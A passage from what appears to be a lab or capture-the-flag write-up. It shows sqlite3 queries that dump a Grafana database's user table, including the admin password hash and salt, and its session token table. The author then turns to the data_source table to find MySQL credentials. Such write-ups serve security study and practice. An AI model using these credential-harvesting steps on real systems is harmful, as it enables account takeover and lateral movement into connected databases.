 ```bash
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token           
sqlite> select * from user;
1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2022-10-02 16:07:08|0
sqlite> select * from user_auth;
sqlite> select * from user_auth_token;
5|1|fb56b31d6f1d1b8ce93f30ed2051c1464e81ddb62789711daba75bb774043440|fb56b31d6f1d1b8ce93f30ed2051c1464e81ddb62789711daba75bb774043440|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36|10.10.16.28|1|1664725483|1664725483|1664725483|1664725483|0
6|1|bd473d42f8b4f4b53f6b7febb03a225bfe1998fad27eefd64bf9115be112b384|6f86b25da822764af23485eab42024114f4007c39422d42cabc85ed4e5397362|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36|10.10.16.28|1|1664726518|1664726517|1664725781|1664725781|0
sqlite> 
```

I then started navigating through the Grafana application to see any databases connected to it, I know there is, port 3306 is server MySQL database, I'm sure there is, and I found it in the `data sources` section:

![Data Source MySQL](img/data_source.png)

So I went back to the `sqlite3` database and I noticed the table `data_source` which surely contains the credentials to the `MySQL` database:
